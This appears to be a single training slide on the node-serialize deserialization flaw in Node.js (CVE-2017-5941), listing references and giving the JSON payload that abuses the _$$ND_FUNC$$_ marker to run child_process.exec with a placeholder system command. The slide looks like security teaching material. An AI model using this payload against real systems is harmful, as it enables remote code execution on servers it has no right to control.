

# Deserialization Vulnerability
NodeJS: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941
{"thp":"_$$ND_FUNC$$_function(){require('child_process').exec('DO SYSTEM COMMANDS HERE’, function(error, stdout, stderr) {console.log(stdout)});}"}
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
https://github.com/luin/serialize
https://snyk.io/test/npm/node-serialize?severity=high&severity=medium&severity=low
https://blog.websecurify.com/2017/02/hacking-node-serialize.html